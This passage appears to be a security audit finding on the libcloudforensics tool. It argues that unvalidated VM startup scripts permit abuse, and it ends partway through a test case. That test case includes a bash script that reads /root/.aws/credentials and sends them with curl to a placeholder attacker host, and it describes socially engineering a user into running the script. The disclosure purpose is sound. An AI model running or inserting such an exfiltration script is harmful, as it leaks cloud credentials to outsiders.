         - The `StartAnalysisVm` functions in each provider's forensics module accept the `userdata_file` argument, which is used to read the startup script content using `utils.ReadStartupScript` and pass it to the cloud provider's VM creation API.
    - File: `/code/libcloudforensics/scripts/utils.py`
        - The `ReadStartupScript` function reads the content of the startup script file specified by the `filename` argument or the `STARTUP_SCRIPT` environment variable.
    - File: `/code/libcloudforensics/scripts/forensics_packages_startup_aws.sh`, `/code/libcloudforensics/scripts/forensics_packages_startup.sh`
        - Example startup scripts are provided to install forensic packages, demonstrating the intended use of startup scripts without security considerations for credential exposure.
    - There is no input validation or sanitization implemented for the startup scripts.
    - The code does not prevent users from creating and using startup scripts that could potentially exfiltrate credentials or perform other malicious actions.
- **Security Test Case:**
    1. **Setup:**
        - Attacker sets up a simple HTTP server to receive exfiltrated credentials (e.g., using `netcat` or `python -m http.server`).
        - Attacker creates a malicious startup script (`malicious_startup.sh`) that does the following:
            ```bash
            #!/bin/bash
            # Malicious Startup Script to Exfiltrate AWS Credentials

            # Exfiltrate AWS credentials by sending them to the attacker's HTTP server
            CREDENTIALS=$(cat /root/.aws/credentials)
            curl "http://attacker-ip:attacker-port/?credentials=$CREDENTIALS"

            # Optional: To also demonstrate exfiltration of environment variables
            # ENV_VARS=$(env)
            # curl "http://attacker-ip:attacker-port/?env_vars=$ENV_VARS"

            echo "Malicious script executed."
            ```
            - Replace `attacker-ip:attacker-port` with the attacker's HTTP server address.
        - Saves the malicious script as `malicious_startup.sh`.
        - Attacker obtains compromised AWS credentials (or Azure/GCP credentials). For AWS, configure a profile named `compromised_profile` in `~/.aws/credentials` with these compromised credentials.
    2. **Execution:**
        - Attacker socially engineers a user to use the `cloudforensics` tool with the `compromised_profile` and the malicious startup script.
        - The user, intending to investigate their AWS environment, executes the following command:
            ```bash
            export STARTUP_SCRIPT=$(pwd)/malicious_startup.sh
            cloudforensics aws us-east-1 listinstances --profile compromised_profile
            ```
            - Or, to explicitly use the `--launch_script` argument:
            ```bash
            cloudforensics aws us-east-1 startvm analysis-vm --profile compromised_profile --launch_script malicious_startup.sh
            ```
        - The `cloudforensics` tool attempts to list instances (or starts an analysis VM), utilizing the compromised credentials.
        - The malicious startup script executes on the analysis VM during its boot process.
        - The malicious script exfiltrates the AWS credentials to the attacker's HTTP server.
    3. **Verification:**